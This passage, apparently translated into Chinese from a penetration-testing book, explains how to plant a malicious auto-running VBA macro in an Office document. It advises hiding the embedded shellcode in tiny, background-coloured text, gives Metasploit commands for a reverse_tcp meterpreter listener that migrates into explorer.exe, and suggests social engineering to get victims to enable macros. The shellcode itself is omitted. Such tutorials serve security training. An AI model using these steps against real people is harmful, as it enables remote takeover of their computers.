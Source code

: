 要使用脚本，请打开 Microsoft Office 文档并创建宏（具体命令将取决于所使用的 Microsoft Windows 版本）。将以下信息框中给出的文本的第一部分（从`Sub Auto_Open()`到最后一部分`End Sub`复制到宏编辑器中，并在启用宏的情况下保存。

```
'**************************************************************
'*
'* MACRO CODE
'*
'**************************************************************

Sub Auto_Open()
    Ffqsm12
    End Sub

// Additional code removed for clarity

Sub Workbook_Open()
    Auto_Open
End Sub
```

接下来，将外壳代码复制到实际文档中。外壳代码的部分摘录如以下屏幕截图所示：

![Conducting attacks using VBScript](img/3121OS_11_02.jpg)

外壳代码可识别为可用于执行攻击的脚本，因此您可能希望隐藏或通过最小化字体大小并使颜色与文档背景匹配来混淆外壳代码。

攻击者必须在 Metasploit 上设置侦听器。在命令提示下输入`msfconsole`后，攻击者通常会输入以下命令，并设置主机、端口和负载选项；此外，攻击者将配置连接以自动迁移到更稳定的`explorer.exe`进程，如以下命令行所示。

```
msf>use exploit/multi/handler 
msf>set lhost 192.168.43.130
msf>set lport 4444
msf>set payload windows/meterpreter/reverse_tcp
msf>set autorunscript migrate -n explorer.exe
msf >exploit 

```

文件发送到目标时，打开时会弹出安全警告；因此，攻击者将使用社会工程迫使目标受害者选择**启用**选项。最常用的方法之一是将宏嵌入已配置为玩游戏的 Microsoft Word 文档或 Excel 电子表格中。

